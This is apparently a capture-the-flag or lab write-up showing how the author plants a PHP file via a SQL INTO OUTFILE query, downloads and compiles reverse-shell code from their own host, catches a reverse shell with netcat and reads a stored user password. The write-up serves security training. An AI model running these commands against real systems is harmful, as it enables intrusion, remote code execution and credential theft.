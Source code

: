 # Writeup 5 - PHP Reverse Shell 

> This writeup takes from [Writeup 1](../writeup1/README.md), having discovered `phpmyadmin` credentials.

Another variation of PHP execution, this time creating a reverse shell instead of executing commands.

First of all, I'm starting an http server on my host machine to serve the source file:
```bash
$ python3 -m http.server 9002
Serving HTTP on 0.0.0.0 port 9002 (http://0.0.0.0:9002/) ...
```

Then, we create our trigger file (we make sure to set the IP of our host machine):
```sql
SELECT "<?php system('rm -rf /tmp/reverse-shell.c && wget http://192.168.56.1:9002/reverse-shell.c -O /tmp/reverse-shell.c && gcc /tmp/reverse-shell.c -o /tmp/reverse-shell && /tmp/reverse-shell 192.168.56.1 9001'); ?>" INTO OUTFILE '/var/www/forum/templates_c/run.php'
```

On our host, we run `nc` to listen to the port 9001:
```bash
nc -lvnp 9001
```

And finally, we visit the `run.php` file to execute our code, and we get a reverse shell:
```bash
$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 192.168.56.103 56241
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
cat /home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```

We can now go back to writeup 1 and connect to `lmezard`'s account via FTP.
